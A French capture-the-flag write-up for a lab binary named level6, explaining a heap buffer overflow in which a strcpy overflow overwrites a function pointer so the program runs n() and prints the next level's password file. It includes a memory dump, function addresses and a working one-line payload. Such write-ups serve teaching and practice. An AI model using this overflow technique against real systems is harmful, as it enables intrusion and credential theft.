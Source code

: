 # level6 - Heap Buffer Overflow

## Analyse du Programme

**Structure Mémoire**
- Premier `malloc(64)` retourne `0x0804a008`
- Second `malloc(4)` retourne `0x0804a050`
- Les blocs mémoire sont contigus sur la heap
- Header malloc de 8 bytes entre chaque allocation
  
```nasm
  0x804a008:	0x41414141	0x00000000	0x00000000	0x00000000
  0x804a018:	0x00000000	0x00000000	0x00000000	0x00000000
  0x804a028:	0x00000000	0x00000000	0x00000000	0x00000000
  0x804a038:	0x00000000	0x00000000	0x00000000	0x00000000
  0x804a048:	0x00000000	0x00000011	0x08048468
```

**Fonctions Importantes**
- Fonction `n()` à l'adresse `0x08048454` exécute `system("/bin/cat /home/user/level7/.pass")`
- Fonction `m()` à l'adresse `0x08048468` est appelée par défaut

## Exploitation

**Mécanisme**
- Allocation de deux blocs malloc de size 0x40 et 0x4
- Un pointeur sur fonction est assigne dans le deuxieme malloc
- A la fin du main, il y a un call a cette fonction
- Le programme copie `argv` dans le premier buffer avec `strcpy()`
- L'overflow du premier buffer permet d'écraser l'adresse stockée dans le second malloc
- L'offset total est de 72 bytes (64 bytes du buffer + 8 bytes de header malloc)

**Construction du Payload**

Le payload:
1. 72 bytes de padding ("A")
2. Adresse de `n()` en little-endian (`\x54\x84\x04\x08`)

```bash
./level6 $(python -c 'print "A"*72 + "\x54\x84\x04\x08"')
```

**Obtention du Flag**
```bash
cat /home/user/level7/.pass
```

Cette exploitation fonctionne en écrasant l'adresse de `m()` par celle de `n()` dans le second bloc malloc, redirigeant ainsi l'exécution vers la fonction qui affiche le flag.

